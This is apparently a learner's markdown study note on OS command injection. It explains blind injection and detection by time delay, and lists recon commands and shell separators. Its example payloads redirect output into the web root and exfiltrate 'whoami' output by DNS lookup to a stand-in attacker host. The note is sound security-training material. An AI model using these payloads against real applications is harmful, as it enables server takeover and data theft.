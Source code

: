 # RCE

![](https://github.com/DK9510/Img/blob/main/RCE.png)
![[RCE.png]]
## what is OS command injection 
* OS command injection is also known as shell injection or RCE
* it is vulnerability that allow an attacker to execute any command on the system and take full control of the server.
* attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.
* the vulnerability may present at any parameter that may directly supply it to the internal shell but we need some proxy to check that it may interact with the hidden parameter or in the API request.

# find and exploit os-command injection vulnerability

## Use full command
|Purpose |Linux|Windows|
|---|---|---|
|name of current user|'whoami'|'whoami'|
|OS| 'uname -a'|'ver'|
|Network configuration|'ifconfig'or'ipaddr|'ipconfig/all'|
|Network Connection|'nestat -an'|'netstat -an'|
|Running Process|'ps -ef'|'tasklist'|

## Blind Command injection vulnerability 
* many instance of os COmmand injection are blind vulnerabilities, means application does not return output from the command with http response.
* Consider a web site that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details. For example: 
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`

## Detecting Blind OS Command Injection using Time Delay.
* for generating time delay the `ping` command is use full because it send number of ICMP packet so to complete this command application takes time and delay generates in the application response time.
* put `|| && ` like terminal command ending or ';' to terminate the command or giving error, analyze more and try to exploit RCE.

## Exploiting Bling RCE BY Redirecting output
* You can redirect the output from the injected command into a file within the web root that you can then retrieve using your browser. For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:
`& whoami > /var/www/static/whoami.txt &`

* You can then use your browser to fetch `https://vulnerable-website.com/whoami.txt` to see the output;
## Exploiting blind OS command injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques)

### Blind-os command injection Out-of-band interaction
* You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
* `& nslookup kgji2ohoyw.web-attacker.com &`
* use burp Collaborator for OAST.

### Blind-os-command injection Out-Of-band data exfiltration.
* ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`` payload here in between \`\`we can add our command and execute lookup.
* response in collaborator  `wwwuser`.id.collaborator.net

## ways of injection OS commands
* \&
* \&\&
* |
* ||

only unix-based os 
* \;
* Newline(0x0a or \\n)

On Unix-based system we use
`` `command` or $(command)``
